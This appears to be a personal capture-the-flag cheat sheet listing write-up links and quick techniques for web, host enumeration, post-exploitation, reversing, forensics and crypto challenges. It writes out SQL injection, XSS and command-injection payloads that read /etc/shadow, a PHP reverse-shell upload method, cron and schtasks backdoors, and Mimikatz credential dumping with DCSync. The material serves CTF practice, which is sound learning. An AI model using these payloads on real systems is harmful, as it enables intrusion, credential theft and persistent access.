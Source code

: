 # Writeups
* [HTB Cyber Apocalypse 2023 writeups](https://github.com/sbencoding/htb_ca2023_writeups)
* [Siunam321 writeups](https://siunam321.github.io/ctf/) - Long list of solutions from CTFs/TryHackMe/Wargames/HTB
* [InfoSecWriteups - CTF Cheatsheet](https://infosecwriteups.com/use-these-cheatsheets-to-increase-your-ctf-speed-ca12a01d396a) - INTEGRATE THIS INTO CHEAT SHEET BELOW

# CTF Techniques
* [Steps to follow in a CTF](https://github.com/chreniuc/CTF)

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion

Any option to upload a file: make sure it's php. 
* [PHP Sandbox](https://onlinephp.io/) - Testing PHP code
* [PHP - Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) - Edit and upload this, run nc listener, then access file from target server to establish a shell
* If whitelisting is being used, add an extension to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
* `Nmap -A -v ipaddress` (-A for aggressive, -v for verbose) [-sV not required with -A]
* `Nmap -sC -sV ipaddress` (-sC for script scan, -sV for Version detection)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)
* [Reverse Engineering for Beginners - Free ELearning](https://www.begin.re/)
* [Cutter - RE Platform for Linux](https://cutter.re/)
 * [Cutter Example with HTB CTF2023 Challenge "Shatter Tablet"](https://www.youtube.com/watch?v=iCNLn3nvEZA)
* [IDA - Common Code Disassembler](https://hex-rays.com/ida-free/)
 * [IDA Basics Tutorial](https://resources.infosecinstitute.com/topic/basics-of-ida-pro-2/)
* [Ghidra - Common Decompiler](https://ghidra-sre.org/)
 * [Ghidra - NSA GitHub](https://github.com/NationalSecurityAgency/ghidra)
 * [Ghidra Install & Basics Tutorial](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  
* ps1 = Powershell

# Crypto
* [Cracking RSA with Chinese Remainder Theory - Calculator](https://asecuritysite.com/rsa/rsa_ctf02)